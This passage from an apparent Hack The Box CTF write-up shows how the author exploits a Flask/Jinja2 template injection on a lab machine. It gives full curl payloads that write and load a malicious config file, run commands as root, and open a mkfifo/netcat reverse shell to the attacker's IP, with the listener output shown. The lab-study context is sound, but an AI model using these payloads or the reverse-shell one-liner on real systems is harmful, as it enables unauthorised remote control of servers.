     root@kali# curl -X POST http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY1MTA1Mn0.YuW5qoU_-327dbMSnydFQ6q5wyFPw3PFlDHDOjuu2Mk" --data "name=name&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('id',shell=True) }}"
    Name: name desc: None True uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    

Next, I’ll just ping myself:

    
    
    name=GBR-4045&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('ping -c 1 10.10.14.15',shell=True) }}
    
    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    20:32:26.216742 IP 10.10.10.96 > kali: ICMP echo request, id 40448, seq 0, length 64
    20:32:26.216765 IP kali > 10.10.10.96: ICMP echo reply, id 40448, seq 0, length 64
    

Now I’ll go for the full shell:

    
    
    name=GBR-4045&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('rm /tmp/d; mkfifo /tmp/d; cat /tmp/d | /bin/sh -i 2>%261 | nc 10.10.14.15 443 > /tmp/d',shell=True) }}
    
    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.96] 46860
    /bin/sh: can't access tty; job control turned off
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    /app # hostname
    tix-app
    

I’ve got a root shell on tix-app!

## Enumeration From tix-app

### Host Enumeration

Well, a root shell is typically a good thing, but in HTB, when it’s your
initial shell, it likely means you’re in a container, and you’ll need to pivot
to another host.

There’s no user.txt or root.txt on the host:
